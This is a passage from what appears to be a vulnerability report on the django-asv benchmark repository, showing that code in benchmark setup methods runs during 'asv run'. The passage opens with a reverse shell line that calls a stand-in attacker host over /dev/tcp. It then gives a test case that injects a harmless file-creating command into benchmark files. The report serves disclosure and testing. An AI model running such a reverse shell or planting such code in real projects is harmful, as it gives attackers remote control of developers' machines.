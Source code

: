             # Example 2: Reverse shell (simplified, requires attacker to listen on port 4444)
            subprocess.Popen(["/bin/bash", "-c", "bash -i >& /dev/tcp/attacker.example.com/4444 0>&1"])

        def time_harmless_benchmark(self): # Name doesn't matter, setup is executed regardless of benchmark function run
            pass # Harmless benchmark code
    ```
    - When `asv run` is executed, the `setup()` method of `MaliciousBenchmark` (or modified benchmark) will be executed, running the malicious code.

*   **Security Test Case:**
    1.  **Setup Test Environment:**  Set up a local development environment for `django-asv` as described in the `README.md`.
    2.  **Fork the Repository:** Fork the `django-asv` repository on GitHub to your personal account.
    3.  **Create Malicious Benchmark File (or modify existing):** In your forked repository, create a new directory `benchmarks/malicious_benchmark/` and add `__init__.py` (empty) and `benchmark.py` with the following content:
        ```python
        import os

        class MaliciousBenchmark:
            def setup(self):
                os.system("touch /tmp/pwned_benchmark_code_injection")

            def time_malicious(self):
                pass
        ```
        Alternatively, modify an existing benchmark file (e.g., `/code/benchmarks/model_benchmarks/model_delete/benchmark.py`) or `benchmarks/utils.py` to inject the `os.system("touch /tmp/pwned_benchmark_code_injection")` line into the `setup()` method or `bench_setup()` function respectively.
    4.  **Include the new benchmark in settings:** If you created a new benchmark, edit the `benchmarks/settings.py` file and add `'benchmarks.malicious_benchmark'` to the `INSTALLED_APPS` list.
    5.  **Commit and Create a Pull Request (Optional for Local Testing):** Commit your changes and create a pull request to the upstream `django-asv` repository (or just test locally in your forked repository if you don't want to create a PR).
    6.  **Run Benchmarks Locally:** Clone your forked repository (or the main one if you submitted and merged the PR for testing). Navigate to the `code/` directory in your local clone of the repository and run the command `asv run`.
    7.  **Verify Code Execution:** After the `asv run` command completes, check if the file `/tmp/pwned_benchmark_code_injection` has been created in your system's `/tmp/` directory. Use the command `ls /tmp/pwned_benchmark_code_injection`.
    8.  **Expected Result:** If the file `/tmp/pwned_benchmark_code_injection` exists, it confirms that the malicious code within the `setup()` method of the `MaliciousBenchmark` class (or injected into the modified file) has been successfully executed by `asv run`, demonstrating the Arbitrary Code Execution via Malicious Benchmarks vulnerability. You should also observe the output of `asv run` for any print statements added in the malicious code for further confirmation. For a less intrusive test, you could modify the malicious benchmark to simply print to standard output instead of writing a file.

This test case demonstrates that simply adding a new benchmark file with malicious code (or modifying existing benchmark files or `utils.py`) and running `asv run` results in the execution of that code, confirming the Arbitrary Code Execution vulnerability.